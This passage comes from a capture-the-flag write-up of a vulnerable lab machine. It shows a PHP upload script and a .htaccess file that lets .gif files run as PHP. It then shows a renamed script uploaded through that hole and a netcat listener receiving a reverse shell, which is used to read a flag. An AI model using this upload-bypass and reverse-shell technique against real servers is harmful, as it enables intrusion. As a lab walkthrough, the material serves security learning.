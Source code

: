 if($imageFileType != "jpg" && $imageFileType != "png" && $imageFileType != "jpeg"
&& $imageFileType != "gif" ) {
    echo "Sorry, only JPG, JPEG, PNG & GIF files are allowed, douchenozzle! ";
    $uploadOk = 0;
}
// Check if $uploadOk is set to 0 by an error
if ($uploadOk == 0) {
    echo "Sorry, your file was not uploaded.  Want me to save your game of Minesweeper though? ";
// if everything is ok, try to upload file
} else {
    if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
        echo "The file ". basename( $_FILES["fileToUpload"]["name"]). " has been uploaded to /uploads.";
    } else {
        echo "Sorry, there was an error uploading your file.  Have you tried rebooting or single-clicking on it? ";
    }
}
?>

bigtommysenior@CallahanAutoSrv01:/var/thatsg0nnaleaveamark/NickIzL33t/P4TCH_4D4MS$ cat uploads/.htaccess
BrowserMatchNoCase "iPhone" allowed
AddType application/x-httpd-php .gif
Order Deny,Allow
Deny from ALL
Allow from env=allowed
ErrorDocument 403 "<H1>Nick's sup3r s3cr3t dr0pb0x - only me and Steve Jobs can see this content</H1><H2>Lol</H2>"
bigtommysenior@CallahanAutoSrv01:/var/thatsg0nnaleaveamark/NickIzL33t/P4TCH_4D4MS$ -
{% endhighlight %}

So in searching the file system I thought I found various interesting files in the Dropbox.  I guess its Nick's old stuff and it was gone (aka updatedb was not run). Anyway I jumped into the P4TCH_4D4MS folder and looked at the upload.php and .htaccess.  Sure enough content checking is disabled on the upload script.  OH but GIF is allowed to execute php code.   A quick rename of my script to .gif and an upload.

{% highlight bash %}
root@kali:~/evidence/tommyboy1.0# nc -lvp 2222
listening on [any] 2222 ...
192.168.244.160: inverse host lookup failed: Unknown host
connect to [192.168.244.155] from (UNKNOWN) [192.168.244.160] 45630
Linux CallahanAutoSrv01 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
 18:34:07 up  2:46,  1 user,  load average: 0.00, 0.00, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
bigtommy pts/0    192.168.244.155  17:47    1:19   0.13s  0.13s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /
$ ls -al
total 105
drwxr-xr-x  25 root     root      4096 Jul 15 12:35 .
drwxr-xr-x  25 root     root      4096 Jul 15 12:35 ..
-rwxr-x---   1 www-data www-data   520 Jul  7 15:36 .5.txt

$ cat /.5.txt
FIFTH FLAG!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
YOU DID IT!!!!!!!!!!!!!!!!!!!!!!!!!!!!
OH RICHARD DON'T RUN AWAY FROM YOUR FEELINGS!!!!!!!!

Flag data: Buttcrack

Ok, so NOW what you do is take the flag data from each flag and blob it into one big chunk.
So for example, if flag 1 data was "hi" and flag 2 data was "there" and flag 3 data was "you"
you would create this blob:
